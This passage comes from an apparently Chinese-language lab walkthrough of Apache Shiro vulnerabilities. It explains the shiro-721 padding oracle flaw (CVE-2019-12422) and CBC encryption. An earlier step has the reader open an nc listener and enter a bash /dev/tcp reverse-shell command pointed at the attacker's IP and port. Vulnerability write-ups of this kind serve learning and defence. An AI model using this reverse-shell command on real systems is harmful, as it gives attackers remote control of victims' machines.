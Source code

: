 出现shell>>以后，攻击机开启nc监听。

在shell>>处填写bash反弹shell命令`bash -i >& /dev/tcp/攻击机ip/端口 0>&1`

![img9](img/img9.png)

反弹shell成功。



### 2.2 shiro-721

Shiro Padding Oracle 远程命令执行漏洞（CVE-2019-12422）

**漏洞背景**

此处想要深入理解，需要学习一下AES加密，参考https://townmacro.cn/2022/09/06/%E6%B5%85%E8%AF%95%E6%8E%A2%E7%A9%B6shiro-721/

**漏洞原理**

Shiro 1.2.4 以上版本官方移除了代码中的默认密钥，在后续的版本更新中，修复了之前shiro-550的固定KEY值，要求开发者自己设置，如果开发者没有设置，则默认动态生成一个KEY，降低了固定密钥泄漏的风险。然后后续的流程还是没变， **1.2.5 <= Shiro < 1.4.2**版本中仍然存在类似的漏洞，即shiro-721。

在cookie中使用的是AES-128-CBC模式进行的加密，在加密流程中使用了Padding填充，这里导致用户可以通过Padding Oracle攻击来生成攻击代码来构造恶意的rememberMe字段，然后触发反序列化攻击，最终导致的任意代码执行。

![企业微信截图_20230515164522](img/企业微信截图_20230515164522.png)

```
1. 明文经过填充后，分为不同的组block，以组的方式对数据进行处理 
2. 初始化向量（IV）首先和第一组明文进行XOR（异或）操作，得到”中间值“
3. 采用密钥对中间值进行块加密，删除第一组加密的密文 （加密过程涉及复杂的变换、移位等） 
4. 第一组加密的密文作为第二组的初始向量（IV），参与第二组明文的异或操作  
5. 依次执行块加密，最后将每一块的密文拼接成密文  
```
